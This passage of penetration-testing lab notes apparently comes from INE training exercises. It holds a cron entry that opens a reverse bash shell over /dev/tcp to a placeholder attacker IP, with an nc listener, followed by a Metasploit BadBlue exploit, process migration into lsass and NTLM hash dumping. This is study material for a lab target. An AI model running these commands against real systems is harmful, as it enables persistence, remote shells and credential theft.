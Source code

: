 ```shell
nmap -p- demo.ine.local

# !! Alternative
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/<my-ip>/1234 0>&1'" > cron
crontab -i cron
crontab -l 
ls

# Exit the session. Login and delete the wait file.
ssh student@<target_IP>
rm wait

# Retrieve the flag.
nc -nvlp 1234
ls -al
cat flag.txt 
# This work every minute
```

<br>

## 8. Dumping & Cracking Hashes

### 8.1. Windows: NTLM Hash Cracking

You'll learn to perform security testing on a Windows system by identifying and exploiting vulnerabilities to crack NTLM hashes.

**Objective:** To exploit a vulnerable Windows server, extract NTLM hashes, and attempt to crack these hashes.

**Gain access to the system**

```shell
ping -c 1 <target_IP>
nmap -sV <target_IP>
searchploit BadBlue
searchsploit badblue 2.7
service postgresql start && msfconsole
use exploit/windows/http/badblue_passthru
set RHOSTS demo.ine.local
exploit
# We have successfully exploited the target vulnerable application (badblue) and received a meterpreter shell.
pgrep lsass.exe
migrate <process_id>
sysinfo
```

**Dump NTLM hashes**

```shell
# List of user accounts and their hashes  
hashdump

# Verify that the hashes are stored in the MSF database or not.
background
creds
```
